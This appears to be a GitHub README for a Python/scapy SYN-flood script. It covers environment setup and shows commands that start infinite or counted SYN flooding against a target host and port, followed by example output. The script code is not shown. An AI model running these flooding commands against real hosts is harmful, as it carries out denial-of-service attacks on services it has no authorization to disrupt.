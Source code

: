 # TCP/SYN Flooding

Script to send SYN packages (_via TCP_) to specific target and port. Optional to set maximum number of packages.

## Prepare environment

- you can use Python virtualenv
- Python3.x is needed
- root rights required (_or via sudo_)

```shell
# install needed packages
$ sudo apt install python3-pip python3-venv
# or
$ sudo pip3 install virtualenv

# create and change into Project directory
$ mkdir -p ~/Projects/TCPSYNFlood && cd ~/Projects/TCPSYNFlood

# create virtualenv
$ virtualenv -p python3 venv
# or
$ python3 -m venv venv

# activate virtualenv
$ . venv/bin/activate

# install requirements
(venv) $ pip install -r requirements.txt
# or
(venv) $ pip install scapy

# list packages (optional)
(venv) $ pip freeze

# make file executable
(venv) $ chmod u+x TCPSYNFlood.py
```

## Run TCP/SYN Flooder

just run it...

```shell
# show help (optional)
(venv) $ sudo venv/bin/python ./TCPSYNFlood.py --help

# start infinite flooding
(venv) $ sudo venv/bin/python ./TCPSYNFlood.py mydomain.tld -p 443

# send 25 packages
(venv) $ sudo venv/bin/python ./TCPSYNFlood.py mydomain.tld -p 443 -c 25
```

to interrupt press [CTRL + c]

## Example output

some example from my terminal...

```shell
Send 5 packages to port 80 on target mydomain.tld
Send package 0
Send package 1
Send package 2
Send package 3
Send package 4
All 5 packets successfully sent.
```

[Go back](../README.md)
